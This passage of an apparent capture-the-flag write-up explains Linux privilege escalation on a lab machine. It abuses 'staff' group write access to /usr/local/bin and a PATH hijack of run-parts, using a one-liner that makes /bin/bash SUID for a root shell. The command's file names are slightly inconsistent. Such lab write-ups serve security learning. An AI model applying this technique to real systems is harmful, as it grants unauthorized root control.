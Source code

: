 ## scenario
We start our enumeration by looking at our user's groups.
```
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr)
groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```
These mostly consist of default Debian groups, however, staff sticks out as it is non-standard.
## staff
According to Debian documentation:
```
staff: Allows users to add local modifications to the system (/usr/local) without needing root
privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and
they may “override” the executables in /bin and /usr/bin with the same name). Compare
with group “adm”, which is more related to monitoring/security.
```
As staff , we can write to /usr/local/bin and /usr/local/sbin:
```
jkr@writeup:~$ ls -ld /usr/local/bin/ /usr/local/sbin/
drwx-wsr-x 2 root staff 20480 Apr 19 04:11 /usr/local/bin/
drwx-wsr-x 2 root staff 12288 Apr 19 04:11 /usr/local/sbin/
```
Both of these paths are typically in the root user's $PATH environment variable, which means that we could replace a program that root is likely to run out of those directories with a malicious
file containing a payload that will allow us to escalate our privileges. To see what the root user might be doing on the system, we upload pspy to the machine.
https://github.com/DominicBreuker/pspy
```
2019/06/09 08:45:43 CMD: UID=0 PID=8528 | sshd: [accepted]
2019/06/09 08:45:43 CMD: UID=0 PID=8529 | sshd: [accepted]
2019/06/09 08:45:43 CMD: UID=0 PID=8530 | sshd: jkr [priv]
2019/06/09 08:45:43 CMD: UID=0 PID=8531 | sh -c /usr/bin/env -i
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --
lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2019/06/09 08:45:43 CMD: UID=0 PID=8532 | run-parts --lsbsysinit /etc/updatemotd.d
2019/06/09 08:45:43 CMD: UID=0 PID=8533 | /bin/sh /etc/update-motd.d/10-uname
```
As we SSH into the machine, root uses sh to run /usr/bin/env , and we see that motd was
called and the file 10-uname was accessed. We also see that the PATH specified before running
run-parts includes two directories that we can write to, at the very start. 

## Exploitation
With that in mind, we will now create a malicious run-parts file in /usr/local/bin , which we
know will be executed as soon as we SSH into the machine.
Using the following one-liner, we create an executable payload that will turn the bash binary into
an SUID binary, effectively giving us a root shell. 
```
jkr@writeup:~$ echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/runparts; chmod +x /usr/local/bin/run-parts
```
Now, as soon as we SSH into the machine as jkr , we see that our payload was triggered, as the
SUID bit is set on /bin/bash :
